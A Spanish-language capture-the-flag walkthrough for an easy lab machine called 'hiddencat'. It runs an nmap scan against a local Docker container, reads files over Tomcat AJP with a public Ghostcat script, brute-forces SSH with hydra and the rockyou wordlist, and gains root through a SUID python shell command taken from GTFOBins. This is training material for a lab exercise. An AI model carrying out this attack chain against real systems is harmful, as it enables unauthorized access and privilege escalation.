



# Máquina hiddencat

---

Dificultad -> Fácil

---

**Adverntencia:** el archivo de docker de esta máquina está roto asi que mientras que en una terminal tienes el docker corriendo debes poner en otra lo siguiente:

```shell
sudo docker run --ulimit nofile=65536:65536 hiddencat
```

Ahora si, empezamos con un nmap para ver puertos:

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4d:8d:56:7f:47:95:da:d9:a4:bb:bc:3e:f1:56:93:d5 (RSA)
|   256 8d:82:e6:7d:fb:1c:08:89:06:11:5b:fd:a8:08:1e:72 (ECDSA)
|_  256 1e:eb:63:bd:b9:87:72:43:49:6c:76:e1:45:69:ca:75 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
```

Veo un ssh, y un apache tomcat 9.0.30

Buscando un poco, encuentro un LFI para tomcat con ajp

[GitHub - YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi: Tomcat-Ajp协议文件读取漏洞](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi) 

Me lo descargo en mi máquina y lo ejecuto:

```shell
python2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 172.17.0.2 -p 8009
```



Encuentro el usuario `jerry` asi que hago un bruteforce al ssh con este usuario

```shell
hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 
```



Entro como jerry por ssh, no hay sudo asi que no puedo hacer `sudo -l`, busco binarios con SUID:

```shell
find / -perm -4000 2>/dev/null
```


Encuentro varios binarios exploiteables como perl y python, busco en [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) y ejecuto el siguiente comando del binario de python: 

```shell
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```



Y solo con eso escalamos a root :)


